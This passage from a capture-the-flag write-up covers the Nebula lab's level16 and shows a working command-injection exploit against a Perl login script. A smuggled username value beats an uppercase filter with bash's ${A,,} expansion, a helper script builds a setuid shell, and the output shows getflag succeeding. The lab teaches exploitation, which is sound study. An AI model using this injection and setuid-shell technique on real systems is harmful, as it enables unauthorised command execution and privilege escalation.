 Similarly to the other command injections, I replicated the filters so that I could print the output and see how I could manipulate them. The biggest problem being the fact that everything was converted to uppercase. Thankfully, that got sorted really quickly when I learnt of the `${A,,}` operator in bash. After quite a bit of trying different things, I finally got something that would work. I would first make the egrep happy by redirecting something to it to grep through. Once that was done, I declared a new variable `A` and set the command I wanted to run to it. Thereafter I converted it to lowercase and executed it wit `${A,,}` and commented the rest of the line out with a hash (#).

So, to solve level16:

```bash
level16@nebula:~$ vim /var/tmp/flag16.sh
level16@nebula:~$ chmod +x /var/tmp/flag16.sh
level16@nebula:~$ cat /var/tmp/flag16.sh
#!/bin/sh
gcc /var/tmp/shell.c -o /var/tmp/flag16
chmod 4777 /var/tmp/flag16
```

On my host machine, I requested the web page hosting the perl script, triggering `/var/tmp/flag16` to run:

```bash
~ » curl -v "http://192.168.217.239:1616/index.cgi?$(python -c 'import urllib; print urllib.urlencode({ "username" : """"</etc/passwd;A="/var/tmp/flag16.sh";${A,,};#""", "password" : "a" })')"
* Hostname was NOT found in DNS cache
*   Trying 192.168.217.239...
* Connected to 192.168.217.239 (192.168.217.239) port 1616 (#0)
> GET /index.cgi?username=%22%3C%2Fetc%2Fpasswd%3BA%3D%22%2Fvar%2Ftmp%2Fflag16.sh%22%3B%24%7BA%2C%2C%7D%3B%23&password=a HTTP/1.1
> User-Agent: curl/7.37.1
> Host: 192.168.217.239:1616
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-type: text/html
<
<html><head><title>Login resuls</title></head><body>Your login failed<br/>Would you like a cookie?<br/><br/></body></html>
* Closing connection 0
```

And then, just to read the flag:

```bash
level16@nebula:~$ /var/tmp/flag16
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## level17

[Level17's Description](https://exploit-exercises.com/nebula/level17/):
{% blockquote %}
There is a python script listening on port 10007 that contains a vulnerability.
{% endblockquote %}
